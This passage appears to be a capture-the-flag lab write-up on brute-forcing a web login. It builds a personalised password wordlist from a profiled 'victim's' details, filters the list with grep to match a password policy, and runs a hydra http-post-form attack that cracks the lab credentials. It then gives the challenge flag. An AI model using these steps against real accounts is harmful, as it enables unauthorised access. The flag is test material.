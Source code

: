 ```
> Child's nickname:
> Child's birthdate (DDMMYYYY):


> Pet's name: Spot
> Company name: AHI


> Do you want to add some key words about the victim? Y/[N]: y
> Please enter the words, separated by comma. [i.e. hacker,juice,black], spaces will be removed: hacker,blue
> Do you want to add special chars at the end of words? Y/[N]: y
> Do you want to add some random numbers at the end of words? Y/[N]:y
> Leet mode? (i.e. leet = 1337) Y/[N]: y

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to jane.txt, counting 46790 words.
[+] Now load your pistolero with jane.txt and shoot! Good luck!
```

Due to the policies of AHI, we need to filter our wordlist in the following way:

```
grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
```


Nice, once we got everything set, let's launch the attack using hydra:

```
hydra -L usernames.txt -P jane-filtered.txt IP -s PORT -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials" -t 60
```

We get this output:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-13 20:55:43
[DATA] max 60 tasks per 1 server, overall 60 tasks, 111286 login tries (l:14/p:7949), ~1855 tries per task
[DATA] attacking http-post-form://94.237.56.165:46400/:username=^USER^&password=^PASS^:Invalid credentials
[46400][http-post-form] host: 94.237.56.165   login: jane   password: 3n4J!!
[STATUS] attack finished for 94.237.56.165 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

Got credentials:

```ad-note

`jane`:`3n4J!!`
```

Let's log in:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250213155724.png)

Got the flag:

```
HTB{W3b_L0gin_Brut3F0rc3_Cu5t0m}
```

